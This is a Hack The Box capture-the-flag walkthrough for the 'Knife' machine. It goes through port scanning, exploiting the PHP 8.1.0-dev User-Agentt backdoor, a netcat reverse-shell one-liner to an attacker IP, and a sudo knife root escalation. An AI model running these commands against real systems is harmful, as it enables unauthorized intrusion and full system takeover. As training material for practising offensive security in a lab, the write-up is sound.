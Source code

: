 # HTB - Knife

#### Ip: 10.10.10.242
#### Name: Knife
#### Rating: Easy

----------------------------------------------------------------------

![Knife.png](../assets/knife_assets/Knife.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Knife]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.242
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:28 CDT
Nmap scan report for 10.10.10.242
Host is up (0.071s latency).
Not shown: 65384 closed tcp ports (reset), 149 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.11 seconds
```  

Lets dive a bit deeper and scan ports 22 and 80 using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Knife]
└─$ sudo nmap -sC -sV -T4 10.10.10.242 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:30 CDT
Nmap scan report for 10.10.10.242
Host is up (0.068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.95 seconds
```

Because we will most likely get a foothold using a web based exploit, it never hurts to kick of a Nikto scan, and see if there is some low hanging fruit.

Looking over the results we can see Nikto identified PHP/8.1.0-dev. From past experience I recall there may have been a vulnerability or a backdoor with this version.

Heading over to Google confirms there is indeed a backdoor in this version, and it is easily exploitable. 

While is is definitely possible to exploit this backdoor manually in BurpSuite, today I'm going to utilize this exploit found on ExploitDB: https://www.exploit-db.com/exploits/49933. 

In the comments the exploit mentions:

"An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell on the host."

Taking a closer look at the exploit we can see that we will be appending a cmd to the user-agentt field:

![user-agentt.png](../assets/knife_assets/user-agentt.png)

Let's fire off the exploit and try and get onto the box.

### Exploitation

After copying the script to my exploits folder, I execute the exploit and get a pseudo-shell as user James. This is all well and good, but I'd prefer a proper reverse shell, that way I can keep some persistence on the box in case the pseudo-shell crashes.

To do this I simply set up a netcat listener and issue this one-liner:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f
```

I can now stabilize the shell using Python:

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

And grab the first flag:

![user_flag.png](../assets/knife_assets/user_flag.png)

### Privilege Escalation

Running `sud -l` I can see that user James can run `knife` with root permissions:

```text
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

According to the man-pages:

"knife  is a command-line tool that provides an interface between a local chef-repo and the Chef server."

Lets take a look at https://gtfobins.github.io/ to see if we can find a way to exploit this:

![gtfobins.png](../assets/knife_assets/gtfobins.png)

Cool, so looks like we simply have to run `sudo knife exec -E 'exec "/bin/sh"'` to escalate to root:

```text
james@knife:~$ whoami
whoami
james
james@knife:~$ 

    sudo knife exec -E 'exec "/bin/sh"'


james@knife:~$ 
james@knife:~$     sudo knife exec -E 'exec "/bin/sh"'
# # whoami
whoami
root
```

Nice! All that's left to do now is grab the root flag!

![root_flag.png](../assets/knife_assets/rot_flag.png)

Thanks for following along!

-Ryan

--------------------------------------------------------------------------
